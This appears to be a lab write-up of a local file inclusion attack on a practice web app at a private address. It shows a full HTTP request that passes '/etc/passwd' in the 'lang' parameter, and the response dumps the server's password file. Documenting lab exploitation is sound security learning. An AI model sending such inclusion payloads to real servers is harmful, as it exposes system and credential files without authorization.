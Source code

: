 ```http

<h2>DNS Zone Transfer Attack</h2>

<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>
...
```

The response tells us that there is a parameter named `lang` available which is used to include a `php` file.
In the following we try to exploit this by testing for a `local file inclusion` (`lfi`) 

## test for directory traversal and lfi
### request

payload: `/etc/passwd`
```http
GET /secret_information/?lang=/etc/passwd HTTP/1.1
Host: 192.168.124.14
Upgrade-Insecure-Requests: 1
User-Agent: asd
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

### response
```http
HTTP/1.1 200 OK
Date: Sun, 09 Jan 2022 15:59:23 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Length: 2191
Connection: close
Content-Type: text/html; charset=UTF-8

<title>zone transfer</title>

<h2>DNS Zone Transfer Attack</h2>

<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```